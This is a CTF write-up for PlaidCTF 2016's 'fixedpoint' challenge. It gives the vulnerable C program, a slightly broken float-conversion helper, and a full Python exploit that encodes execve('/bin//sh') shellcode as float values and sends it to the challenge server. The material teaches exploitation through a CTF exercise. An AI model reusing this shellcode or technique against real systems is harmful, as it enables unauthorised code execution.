 ```yaml
---
layout: post
title: pctf 2016 fixedpoint writeup
category: writeup
---
```


```C
#include <stdlib.h>
#include <sys/mman.h>
#include <stdio.h>

int main(int argc, char** argv) {
  float* array = mmap(0, sizeof(float)*8192, 7, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
  int i;
  int temp;
  float ftemp;

  for (i = 0; i < 8192; i++) {
    if (!scanf("%d", &temp)) break;
    array[i] = ((float)temp)/1337.0;
  }

  write(1, "here we go\n", 11);
  (*(void(*)())array)();
}
```

All i did was just make shellcode and * 1337.0.
but float is not so precise to control lsb, so i use float with
0x46000000 ~ 0x48000000 (8192.0 ~ 131072.0) which is stable for x * 1337.0 / 1337.0.
(0x46 : inc esi, 0x48 : dec eax)

I use hex-to-int convert code to find payload.

```C
--helper.c--
int* hex_to_int(float a)
{
    float* x = (float*)&a;
    *x = *x * 1337.0;
    return (int*)x;
}
int main()
{
    int a;
    float *ftemp;

    scanf("%08x",&a);
    float* c = (float*)&a;
    printf("%f\n",*c);
    *c = *c * 1337.0;
    printf("%f\n", *c);
    int b = (int)(*c);
    printf("%08x\n",b);
    printf("%08x\n",float_i2f(a));
    //printf("%08x\n", ftemp);
}
```

full exploit code:

```python
import pwnbox

local = False

if local:
    p = pwnbox.pipe.ProcessPipe('gdb -q fixedpoint_02dc03c8a5ae299cf64c63ebab78fec7')
else:
    p = pwnbox.pipe.SocketPipe('fixedpoint.pwning.xxx',7777)

shellCode = ['31c990','31c990','519090','31d290','b26890','c1e208','b27390','c1e208','b22f90','c1e208','b22f52','9031d2','b26e90','c1e208','b26990','c1e208','b26290','c1e208','b22f52','9089e3','515390','89e190','31c090','31d290','b00b90','cd8090']



def helper(a):
    tempP = pwnbox.pipe.ProcessPipe('./helper')
    tempP.write(a+'\n')
    retVal = tempP.read_until('\n')
    retVal = tempP.read_until('\n').split('.')[0]
    tempP.close()
    return retVal


#print helper()

if local:
    p.read_until('(gdb)')
    #p.write('b* 0x80484DA\n')
    #p.read_until('(gdb)')
    #p.write('r\n')
    #p.read_until('(gdb)')
    #p.write('b *$eax\n')
    #p.read_until('(gdb)')
    p.write('r\n')
    #p.interact()

for i in shellCode[:-4]:
    p.write(helper('48'+i[4:] + i[2:4]+ i[0:2])+'\n')

for i in shellCode[-4:]:
    p.write(helper('46'+i[4:] + i[2:4] + i[0:2]) + '\n')



p.interact()
```
